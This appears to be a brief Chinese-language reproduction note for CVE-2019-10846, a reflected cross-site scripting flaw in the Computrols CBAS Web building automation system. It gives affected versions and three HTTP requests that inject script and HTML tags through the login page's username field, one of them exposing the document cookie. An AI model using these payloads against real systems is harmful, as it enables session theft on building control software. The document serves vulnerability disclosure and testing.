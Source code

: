 # （CVE-2019-10846）Computrols CBAS Web 反射型 xss

> 原文：[http://book.iwonder.run/0day/Computrols CBAS Web/1.html](http://book.iwonder.run/0day/Computrols CBAS Web/1.html)

## 一、漏洞简介

Computrols CBAS Web 是美国 Computrols 公司的一套楼宇自动化系统

## 二、漏洞影响

Computrols CBAS Web<=19.0.0

## 三、复现过程

### 1、

```
POST /cbas/index.php?m=auth&a=verifyid HTTP/1.1

username="><script>confirm(document.cookie)</script>&submit_button=Send+Me+a+New+Password+Via+Email 
```

### 2、

```
POST /cbas/index.php?m=auth&a=login HTTP/1.1

username="><marquee>htmlinjection</marquee>&password=&challenge=60753c1b5e449de80e21472b5911594d&response=e16371917371b8b70529737813840c62 
```

### 3、

```
GET /cbas/index.php?m=auth&a=login&username="><marquee>my milkshake brings all the boys to the yard.</marquee>&password=damn_right HTTP/1.1 
```

